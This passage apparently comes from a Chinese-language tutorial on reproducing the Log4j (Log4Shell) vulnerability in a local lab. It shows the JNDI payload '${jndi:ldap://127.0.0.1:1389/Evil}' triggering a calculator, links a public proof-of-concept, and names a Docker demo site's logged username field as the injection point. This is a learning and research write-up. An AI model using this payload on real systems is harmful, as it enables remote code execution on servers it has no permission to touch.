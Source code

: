 ```java
}
```

运行程序，输入Payload

```
${jndi:ldap://127.0.0.1:1389/Evil}
```

成功弹出计算器

![](img/成功触发漏洞.png)

## 模拟环境漏洞复现

复现环境和poc[参考](https://github.com/kozmer/log4j-shell-poc)

按照教程运行docker，跑起来网站，可以看到网站用户框中可以输入username和password

![](img/漏洞网站.png)

分析一波网站的代码，可以看到username处的输入会用`logger.error`打印，说明这就是漏洞点
